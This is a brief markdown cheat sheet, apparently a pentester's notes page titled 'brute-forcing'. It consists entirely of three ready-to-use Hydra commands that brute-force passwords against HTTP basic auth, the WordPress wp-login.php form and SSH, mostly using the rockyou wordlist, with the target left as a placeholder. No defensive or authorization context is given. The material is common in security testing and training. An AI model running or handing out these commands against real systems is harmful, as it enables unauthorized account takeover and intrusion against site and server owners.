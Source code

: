 ```yaml
---
layout: post
title: "brute-forcing"
keywords: "brute, hydra, wordpress, ssh"
---
```

### HTTP
```
hydra -l <USER> -P /usr/share/wordlists/rockyou.txt -t 1 -f <ip> http-get <path>
```

### WordPress
```
hydra -L <USERFILE> -P <PASSFILE> $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```

### SSH
```
hydra -t 16 -l <USERNAME> -P /usr/share/wordlists/rockyou.txt -vV $IP ssh
```